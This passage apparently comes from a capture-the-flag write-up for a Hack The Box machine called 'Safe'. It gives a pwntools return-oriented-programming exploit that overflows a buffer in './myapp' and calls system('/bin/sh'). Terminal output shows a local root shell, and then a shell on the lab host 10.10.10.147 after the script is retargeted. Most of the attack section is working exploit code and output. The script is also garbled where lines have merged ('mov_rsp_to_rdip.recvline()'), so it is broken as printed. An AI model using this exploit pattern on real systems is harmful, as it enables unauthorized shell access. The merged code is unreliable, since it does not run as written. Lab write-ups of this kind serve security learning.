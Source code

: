 **Step \#5: Write out the exploit**

We have all the necessary information we need to write out our exploit. I use pwn tools to automate the process.

```text
from pwn import *# initial configuration
p = process("./myapp")
context(os="linux", arch="amd64")# parameters
junk = "A" * 112 # offset - 8
cmd = "/bin/sh\x00" # argument that will be passed to RPB
pop_r13 = p64(0x401206) # pop r13
random = p64(0x000000) # random value that will be put into r14 and r15
mov_rsp_to_rdi = p64(0x401152) # mv rdi, rsp
system = p64(0x401040)# buffer
buf = junk + cmd #get to the RBP and pass the /bin/sh string
buf += pop_r13 # pop r13
buf += system # set r13 to system call
buf += random + random # pop r14, pop r15 
buf += mov_rsp_to_rdip.recvline()
p.sendline(buf)
p.interactive()
```

What the above script does is it pushes the RBP register, which contains the /bin/sh string, on the stack that eventually ends up in the RDI register. Then we use r13 to make the program jump to the system function and run /bin/sh which give us a shell.

Run the exploit and we get a shell!

```text
root@kali:~/Desktop/htb/safe# python safe.py
[+] Starting local process './myapp': pid 4562
[*] Switching to interactive modeWhat do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To test it on the Safe box, make the following changes in the script.

```text
p = remote("10.10.10.147", 1337)                                                                            
#p = process("./myapp")
```

Run the exploit and we get a shell!

```text
root@kali:~/Desktop/htb/safe# python safe-prod.py 
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
$ whoami
user
$ hostname
safe
```
